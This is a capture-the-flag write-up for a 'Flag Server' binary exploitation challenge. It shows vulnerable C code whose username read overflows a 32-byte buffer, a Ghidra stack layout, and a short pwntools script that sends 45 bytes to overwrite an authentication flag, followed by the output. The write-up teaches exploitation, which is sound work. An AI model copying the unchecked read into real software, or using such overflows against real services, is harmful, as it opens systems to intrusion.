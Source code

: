# Flag Server
Category: Binary Exploitation, 50 points

## Description

> I found this cool service that gives out flags, but you need to have a username and password to log in...

```c
#include <stdio.h>
#include <unistd.h>
#include "flag.h"

int get_credentials();
int authenticate_with_server(int *authenticated);
void print_flag();

extern char flag[100];

#define USERNAME_LENGTH 32
#define PASSWORD_LENGTH 64


int main() {
    int authenticated = 0;
    char username[USERNAME_LENGTH] = {0};
    char password[PASSWORD_LENGTH] = {0};

    printf("Hello and thank you for using Flag Distibuter v1.0 🚩🚩🚩\n");

    printf("To receive the flag, please enter your username and password\n");
    printf("Username: ");
    fflush(stdout);
	read(STDIN_FILENO, username, PASSWORD_LENGTH);
    printf("Password: ");
    fflush(stdout);
    read(STDIN_FILENO, password, PASSWORD_LENGTH);
    printf("Autenticating...\n");

    authenticate_with_server(&authenticated);

    if(authenticated)
        print_flag();
    else
        printf("Could not authenticate using these username and password\n");
        
    return 0;
}


void print_flag() {
	printf("Authenticated, here's the flag: %s\n", flag);
}

int authenticate_with_server(int *authenticated) {
    /*TODO: add authentication with server*/
    sleep(1);
    return 0;
}
```

## Solution

We can see that the username buffer is allocated as `username[USERNAME_LENGTH]` but is read into using `read(STDIN_FILENO, username, PASSWORD_LENGTH)`, and since `USERNAME_LENGTH < PASSWORD_LENGTH` we have a buffer overflow. We might be tempted to use it in order to try and call `print_flag`, but the binary is compiled with ASLR:

```console
┌──(user@kali)-[/media/sf_CTFs/ducky_debug_duck/Flag_Server]
└─$ checksec --file ./flag_server
[*] '/media/sf_CTFs/ducky_debug_duck/Flag_Server/flag_server'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

Add to that the fact that `read` will read the complete `PASSWORD_LENGTH` it is requested to, and it looks like we won't be able to override just the lower bytes of the return address for a statistic ASLR bypass. Instead, we'll override `authenticated`.

The difference between `authenticated` and `username` according to Ghidra is `abs( (-0x38) - (-0xc) ) = 44`:

```
                             **************************************************************
                             *                          FUNCTION                          *
                             **************************************************************
                             undefined8 __stdcall main(void)
             undefined8        RAX:8          <RETURN>
             undefined4        Stack[-0xc]:4  authenticated                           XREF[3]:     001011d5(W), 
                                                                                                   001012cc(*), 
                                                                                                   001012d8(R)  
             undefined8        Stack[-0x20]:8 local_20                                XREF[1]:     001011f4(W)  
             undefined8        Stack[-0x28]:8 local_28                                XREF[1]:     001011ec(W)  
             undefined8        Stack[-0x30]:8 local_30                                XREF[1]:     001011e4(W)  
             undefined8        Stack[-0x38]:8 username                                XREF[2]:     001011dc(W), 
                                                                                                   00101274(*)  
             undefined8        Stack[-0x40]:8 local_40                                XREF[1]:     00101234(W)  
             undefined8        Stack[-0x48]:8 local_48                                XREF[1]:     0010122c(W)  
             undefined8        Stack[-0x50]:8 local_50                                XREF[1]:     00101224(W)  
             undefined8        Stack[-0x58]:8 local_58                                XREF[1]:     0010121c(W)  
             undefined8        Stack[-0x60]:8 local_60                                XREF[1]:     00101214(W)  
             undefined8        Stack[-0x68]:8 local_68                                XREF[1]:     0010120c(W)  
             undefined8        Stack[-0x70]:8 local_70                                XREF[1]:     00101204(W)  
             undefined8        Stack[-0x78]:8 password                                XREF[2]:     001011fc(W), 
                                                                                                   001012aa(*)  

```

Therefore, by sending `45` bytes, we'll override `authenticated` to a `true` value and get the flag:

```python
# First, generate a pwntools template using:
#  $ pwn template --host ctf.cs.technion.ac.il --port 4068 ./flag_server
#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Full RELRO
# Stack:    No canary found
# NX:       NX enabled
# PIE:      PIE enabled

def send_payload(p, payload):
    p.recvuntil(b"Username: ")
    p.send(payload)
    p.recvuntil(b"Password: ")
    p.sendline(b"dummy")

io = start()
send_payload(io, b'A' * 45)
print(io.recvall())
```

Output:

```console
┌──(user@kali)-[/media/sf_CTFs/ducky_debug_duck/Flag_Server]
└─$ python3 exploit.py
[*] '/media/sf_CTFs/ducky_debug_duck/Flag_Server/flag_server'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to ctf.cs.technion.ac.il on port 4068: Done
[+] Receiving all data: Done (79B)
[*] Closed connection to ctf.cs.technion.ac.il port 4068
b"Autenticating...\nAuthenticated, here's the flag: flag{protect_your_boundaries}\n"
```

